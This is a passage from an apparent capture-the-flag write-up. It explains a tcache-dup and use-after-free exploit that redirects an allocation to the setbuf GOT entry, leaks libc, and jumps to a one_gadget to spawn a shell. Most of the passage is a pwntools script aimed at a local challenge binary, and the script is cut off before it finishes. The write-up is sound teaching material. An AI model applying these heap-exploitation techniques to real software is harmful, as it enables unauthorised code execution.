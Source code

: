 ```
tcachebins
0x20 [  3]: 0xabb260 —▸ 0x602028 (setbuf@got.plt) —▸ 0x7f08a633c4d0 (setbuf) ◂— mov    edx, 0x2000
```

4. We then allocated one chunk to use up the first value in our free list. The next chunk afterwards will be allocated to `setbuf` in the **Global Offset Table**, and we will leave the data as a single '\n' character.

5. We can then **print student name**, which will give us the address of `setbuf` in the libc. Keep in mind that we have earlier overwritten the last byte of the address with a '\n' character. However we know that the last byte is always constant and will be `\xd0`.

6. After obtaining our `stdbuf` address, we can calculate our `libc` base address and thus redo the initial exploit but instead of pointing to `getFlag`, we point to a `one_gadget` in the `libc` and thus get our shell.

## Final Exploit script
---
> Keep in mind that the exploit script was adapted to suit certain restrictions and prevent from crashing.
>
> Also keep in mind that `setbuf` was chosen instead of other functions in the `GOT` simply because it will not be called again and accidentally overwriting the last byte in the `GOT` will not cause us to `SEGFAULT` as we will not be calling `setbuf` anytime in th e remaining of the program.

```py
# coding: utf-8
from pwn import *

context.binary = elf = ELF("./vuln_patched")
libc = elf.libc
p = process('./vuln_patched')

#: set up tcache dup to allocate buf to SETBUF in GOT
p.sendlineafter("Choice: ", "2")			# setup buf pointer 
p.sendlineafter("What is your name: ", "")
p.sendlineafter("Choice: ", "7")			# free chunk for reuse
p.sendlineafter("Choice: ", "1")			# reuse chunk
p.sendlineafter("Choice: ", "6")			# set up linked list
p.sendlineafter("Choice: ", "6")
p.sendlineafter("Choice: ", "6")
p.sendlineafter("Choice: ", "4")			# modify linked list to point to setbuf
p.sendlineafter("What is your name: ", p64(elf.got.setbuf))
p.sendlineafter("Choice: ", "2")			# eat up extra freed chunk
p.sendlineafter("What is your name: ", "")
p.sendlineafter("Choice: ", "2")			# allocate chunk to setbuf in GOT
p.sendlineafter("What is your name: ", "")

# print and obtain setbuf address
p.sendline("5")				# print leak
p.recvuntil("Students name is \n")
setbuf_leak = unpack(b'\xd0' + p.recvline().strip(), 'all')
log.info(f'leak = {hex(setbuf_leak)}')

# calculate one_gadget address
libc.address = setbuf_leak - libc.sym.setbuf
one_gadget = libc.address + 0x10a38c
log.info(f'gadget = {hex(one_gadget)}')

# using UAF exploit, run arbitrary functions instead of admin_info function
p.sendlineafter("Choice: ", "6")			# free extra buffer chunk to prevent from allocating to inside setbuf in libc
p.sendlineafter("Choice: ", "1")			# set buf
p.sendlineafter("Choice: ", "6")			# leave buf ptr behind and free
```